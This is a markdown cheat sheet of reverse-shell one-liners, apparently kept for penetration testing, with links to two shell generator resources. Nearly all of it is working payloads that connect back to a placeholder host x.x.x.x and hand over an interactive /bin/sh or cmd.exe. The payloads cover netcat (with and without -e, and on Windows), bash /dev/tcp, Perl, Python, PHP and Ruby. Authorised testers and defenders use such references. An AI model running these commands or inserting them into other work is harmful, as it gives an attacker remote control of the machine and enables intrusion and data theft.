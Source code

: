 # Reserve Shell Cheat Sheet

Resources:
- https://weibell.github.io/reverse-shell-generator/
- https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md#powershell

netcat:
```
nc -e /bin/sh x.x.x.x 4444
```

netcat Windows:
```
nc.exe x.x.x.x 4444 –e cmd.exe
```

netcat without -e:
```
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc x.x.x.X 4444 >/tmp/f
```

Bash:
```
bash -i >& /dev/tcp/x.x.x.x/8080 0>&1  
```
```
setsid bash -i &>/dev/tcp/x.x.x.x/8080 0>&1 &
```


Perl:
```
perl -e 'use Socket;$i="x.x.x.x";$p=4444;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'  
```

Python:
```
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("x.x.x.x",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

php:
```
php -r '$sock=fsockopen("x.x.x.x",4444);exec("/bin/sh -i <&3 >&3 2>&3");'
```

ruby:
```
ruby -rsocket -e'f=TCPSocket.open("x.x.x.x",1234).to_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)'
```